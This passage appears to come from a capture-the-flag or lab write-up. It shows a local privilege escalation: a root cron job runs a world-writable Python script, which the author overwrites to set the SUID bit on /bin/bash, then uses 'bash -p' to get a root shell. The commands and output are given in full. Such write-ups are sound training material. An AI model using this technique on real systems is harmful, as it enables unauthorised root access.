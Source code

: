 ```
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
#
```

Checking the permissions of the file my user `www-data` has access to write to this file. I removed the contents and put in a malicious command to set the SUID bit on `/bin/bash` allowing me to get a root shell

```
$ cat cleanup.py
cat cleanup.py
#!/usr/bin/env python
import os
os.system('chmod u+s /bin/bash')
```

After 3 minutes I can see that the `S` bit has been set and getting to root is trivial 
```
$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
$ bash -p
bash -p
bash-5.0# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
proof.txt
```

